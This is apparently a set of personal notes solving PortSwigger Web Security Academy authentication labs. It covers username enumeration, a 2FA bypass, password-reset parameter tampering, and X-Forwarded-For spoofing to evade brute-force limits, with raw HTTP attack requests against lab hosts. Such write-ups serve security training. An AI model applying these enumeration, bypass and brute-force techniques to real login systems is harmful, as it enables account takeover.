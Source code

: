 # Authentication vulnerabilities

## Username enumeration via different responses

Use Intruder with username and pw as sniper targets

## 2FA simple bypass

1. Login as `wiener:peter`
1. Use portswigger e-mail to login with 2FA
1. capture e-mail change request into repeater
1. logout
1. login as `carlos:montoya`
1. copy session token from the new session
1. insert session token in the prev. captured request to change the e-mail
1. insert wrong code and login again as carlos
1. recieve 2FA code via e-mail
1. ???
1. Profit

##  Password reset broken logic

The `temp-forgot-password` parameter is not checked, so we can just send a
request in carlos' name

``` 
POST /forgot-password/?temp-forgot-password-token HTTP/2
Host: 0a3c00e903fa9e9980fe764f00c60058.web-security-academy.net
Cookie: session=ET1xcusj0lhDr3wWMSd1qCOcQLItAXnW
[...]

temp-forgot-password-token&username=carlos&new-password-1=bla&new-password-2=bla
```

## Username enumeration via response timing

- Login takes longer for valid users.
- there is a Brute force prevention in place.
  - `X-Forwarded-For:§1§` header can be used to evade this.

Use Intruder with Pitchfork:

- **Parameter 1 `X-Forwarded-For:§1§`**: Numbers 1-100
- **Parameter 2 `Username=§2§`**: Username list

We find that `ec2-user` is valid. Now we can do the same again with the PW list.

Final Payload:

```
POST /login HTTP/2
Host: 0a7e00bc04419db78499a2da00be0045.web-security-academy.net
Cookie: session=4MtRH2xLQGE0NrFKaQvHcOVy38p2Fdx0
X-Forwarded-For:§1§

username=ec2-user&password=§dadadaaaaaaaaaaaaaaaaaaaaaa1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111a
```



